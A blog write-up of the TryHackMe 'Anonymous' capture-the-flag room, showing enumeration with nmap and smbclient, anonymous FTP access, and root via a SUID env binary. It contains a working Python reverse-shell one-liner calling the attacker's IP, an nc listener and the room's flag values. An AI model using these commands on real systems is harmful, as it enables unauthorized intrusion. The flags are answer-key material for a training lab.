 ```yaml
---
title: "Anonymous - TryHackMe"
author: Ludovic COULON
date: 2020-05-19
hero: ./images/hero.png
excerpt: "Writeup for the Anonymous on TryHackMe"
---
```


[TryHackMe | Anonymous](https://tryhackme.com/room/anonymous)

Try to get the two flags! Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners.
Acquiring both flags will require some basic knowledge of Linux and
privilege escalation methods.

<div className="Image__Medium">
  <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a6/Anonymous_emblem.svg/1024px-Anonymous_emblem.svg.png" alt="blog_image" />
</div>

For more information on Linux, check out [Learn Linux](https://tryhackme.com/room/zthlinux)

---

### #1 Enumerate the machine. How many ports are open?

```bash
➜  TryHackMe nmap -A -vv 10.10.131.140
```

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:

22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #2 What service is running on port 21?

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:
```

```bash
ftp
```

### #3 What service is running on ports 139 and 445?

```bash
smb
```

### #4 There's a share on the user's computer. What's it called?

<div className="Image__Medium">
  <img src="https://imgur.com/4X6K5lM.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/5Aznrzp.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe smbclient -L  10.10.131.140
Enter WORKGROUP\kali password:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

```bash
pics
```

### #5 user.txt

Let's go to the ftp using the anonymous login

```bash
➜  TryHackMe ftp 10.10.215.153
Connected to 10.10.215.153.
220 NamelessOne FTP Server!
Name (10.10.215.153:kali): anonymous
331 Please specify the password.
Password: no password there
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
-rwxr-xrwx    1 1000     1000          314 May 14 14:52 clean.sh
-rw-rw-r--    1 1000     1000           86 May 17 22:55 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
226 Directory send OK.
```

Let's put a reverse shell in the ftp shall we ? c:

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

You can use whatever you want I will use the python reverse shell.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.228",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Rename the payload 'clean.sh' and put it in the ftp

```bash
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
226 bytes sent in 0.00 secs (2.3427 MB/s)
```

Now let's wait the ftp server to execute the payload

```bash
➜  TryHackMe nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.215.153] 37426
/bin/sh: 0: cant access tty; job control turned off
$ ls
pics
user.txt
$ cat user.txt
90d6f992585815ff991e68748c414740
```

### #6 root.txt

```bash
$ find / -perm -u=s -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
$ ./env /bin/sh -p
/bin/sh: 4: ./env: not found
$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
$ id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

[All the suid shell on GTFOBins | GTFOBins](https://gtfobins.github.io/#+suid)

```bash
$ cd /root/
cd /root/
$ ls
ls
root.txt
$ cat root.txt
cat root.txt
4d930091c31a622a7ed10f27999af363
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
